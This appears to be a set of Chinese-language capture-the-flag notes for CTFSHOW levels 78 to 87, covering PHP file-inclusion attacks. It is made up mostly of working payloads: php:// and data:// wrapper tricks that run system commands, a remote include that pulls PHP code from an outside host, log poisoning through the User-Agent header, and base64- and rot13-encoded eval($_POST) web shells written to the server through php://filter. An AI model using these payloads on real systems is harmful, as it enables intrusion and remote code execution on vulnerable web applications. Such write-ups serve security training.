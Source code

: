 **CTFSHOW-78关卡到117关卡**

78-php&http协议

```php
payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

payload: ?file=php://input post:<?php system('tac flag.php');?>

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>
```

79-data&http协议

```php
payload: ?file=data://text/plain,<?=system('tac flag.*');?>

payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?> 
```

80 81-日志包含

```php
1、利用其他协议,如file,zlib等

2、利用日志记录UA特性包含执行

分析需文件名及带有php关键字放弃

故利用日志记录UA信息，UA带入代码

包含：/var/log/nginx/access.log
```

82-86-SESSION包含

```php
https://www.cnblogs.com/lnterpreter/p/14086164.html

https://www.cnblogs.com/echoDetected/p/13976405.html
```

87-php://filter/write&加密编码

```php
1、利用base64:
url编码2次：php://filter/write=convert.base64-decode/resource=123.php 

content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==

2、利用凯撒13：
url编码2次：php://filter/write=string.rot13/resource=2.php

content=<?cuc riny($_CBFG[1]);?>
```
